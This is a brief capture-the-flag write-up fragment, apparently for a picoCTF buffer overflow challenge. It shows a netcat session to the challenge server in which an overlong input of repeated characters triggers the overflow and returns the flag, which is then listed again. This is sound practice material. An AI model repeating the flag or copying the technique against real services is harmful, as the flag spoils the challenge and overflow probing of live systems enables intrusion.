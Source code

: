 - Give a very larger input:
```bash
┌──(Spadille㉿kali)-[~]
└─$ nc saturn.picoctf.net 53935
Input: pppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}

```

Flag
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
```